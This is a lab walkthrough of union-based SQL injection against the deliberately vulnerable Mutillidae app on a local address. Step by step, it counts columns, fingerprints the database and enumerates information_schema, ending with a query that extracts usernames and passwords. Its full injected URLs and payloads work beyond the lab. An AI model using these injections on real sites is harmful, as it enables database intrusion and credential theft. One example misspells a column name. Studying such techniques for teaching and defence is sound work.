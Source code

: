image After adding the order by 6 into the existing url , the following error statement will be obtained:

image When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

image As it is having 5 columns the query worked fine and it provides the correct result

image Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

image As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

image Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

image The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


![image](https://github.com/user-attachments/assets/2a4dba4f-3286-49a5-a2d2-4f7e7ececf5a)

image The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

image The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/user-attachments/assets/a42bed9d-47ca-4a66-ab55-fb39cd6c504c)

image Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

